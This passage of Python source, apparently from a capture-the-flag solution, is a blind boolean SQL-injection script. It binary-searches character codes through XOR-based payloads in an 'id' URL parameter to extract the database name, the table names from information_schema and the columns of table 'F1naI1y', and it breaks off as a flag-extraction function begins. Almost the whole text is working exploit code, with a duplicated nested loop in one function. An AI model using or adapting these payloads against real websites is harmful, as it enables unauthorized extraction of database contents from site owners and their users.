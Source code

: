 ```python
            }
            r=requests.get(url=url,params=params)
            if "others~~~" in r.text:
                low = mid+1
            else:
                hight = mid
            mid=(low+hight)//2
        if low <=32 or hight >= 127:
            break
        database_name += chr(mid)
        print("数据库为：",database_name)
 
def getTable(): # 获取表名
    tables_name = ""
    for x in range(1,1000):
        left = 32
        right = 127
        mid=(left+right)//2
        while left < right:
            params = {
                "id" : "0^(ord(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema='geek')),"+str(x)+",1))>"+str(mid)+")"
            }
            r=requests.get(url=url,params=params)
            if "others~~~" in r.text:
                left = mid + 1
            else:
                right = mid
            mid = (left + right) // 2
        if left < 32 or right > 127:
            break
        tables_name += chr(mid)
        print("table:",tables_name)
        time.sleep(1)
#  F1naI1y,Flaaaaag
def getColmun():
    column_name=""
    for x in range(1,1000):
        left=32
        right=127
        mid=(left+right)//2
        while left<right:
            while left < right:
                params = {
                    "id": "0^(ord(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='F1naI1y'))," + str(x) + ",1))>" + str(mid) + ")"
                }
                r = requests.get(url=url, params=params)
                if "others~~~" in r.text:
                    left = mid + 1
                else:
                    right = mid
                mid = (left + right) // 2
            if left < 32 or right > 127:
                break
            column_name += chr(mid)
            print("column:",  column_name)
            time.sleep(1)
 
def getFlag():
    flag=""
    for x in range(1,1000):
        left=32
```